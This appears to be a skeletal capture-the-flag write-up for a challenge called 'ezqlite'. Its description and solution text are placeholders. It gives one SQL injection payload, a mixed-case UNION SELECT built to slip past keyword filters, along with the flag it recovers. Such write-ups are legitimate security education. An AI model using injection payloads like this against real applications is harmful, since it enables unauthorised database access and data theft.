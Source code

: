# **ezqlite**
description ....
## **About the challenge**
description
## **Solution**
bla bla bla
```
a%' uNion SeLECT flag, flag, flag FROM flag_3;/*
```

```
ForestyHC{sqlit3_injectiooooonnn_is_basic_0c3662}
```
